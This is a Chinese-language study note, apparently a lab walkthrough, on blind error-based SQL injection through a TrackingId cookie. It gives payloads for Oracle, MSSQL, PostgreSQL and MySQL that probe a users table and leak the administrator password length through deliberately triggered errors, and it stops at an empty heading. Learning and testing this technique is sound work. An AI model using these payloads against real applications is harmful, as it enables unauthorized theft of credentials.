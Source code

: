 #### 构造连接正确语句

>TrackingId=xyz ' || ( SELECT '' ) || '
>构造正确语句 返回正常页面

*若查询无效，则可能数据库为Oracle *
>TrackingId=xyz'||(SELECT '' FROM dual)||'
>构造正确语句 返回正常页面

#### 构造连接错误语句

>TrackingId=xyz' || ( SELECT 'not-a-real-table' ) || '
>返回错误表明注入被后端作为 SQL 查询处理

*若数据库为Oracle*
>TrackingId=xyz' || ( SELECT '' FROM not-a-real-table ) || '
>返回错误表明注入被后端作为 SQL 查询处理

#### 判断是否存在表

>TrackingId=xyz' || (SELECT '' FROM users WHERE rownum = 1) || '
>存在则返回TURE 不存在则返回FASE （rownum = 1 限制返回 一行）

#### 判断是否存在内容

>'|| (SELECT username FROM users WHERE username='administrator') ||'
>若无显示
>'|| (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)||'
>自行构建判断CASE语句故意触发SQL错误
---
*备注*
甲骨文&emsp;&emsp;&emsp;&emsp;SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
微软&emsp;&emsp;&emsp;&emsp;&emsp;SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL&emsp;&emsp;1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
MySQL&emsp;&emsp;&emsp;&emsp;SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
---
*执行方案*

'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
SQL：先执行 FROM users WHERE username='administrator' 判断表中是否存在
若存在 则执行 判断语句
再利用CASE故意执行错误语句 报错

#### 判断内容长度

>'|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>1)||'
>判断字符是否大于1 若程序报错 则说明大于1
>

#### 判断内容
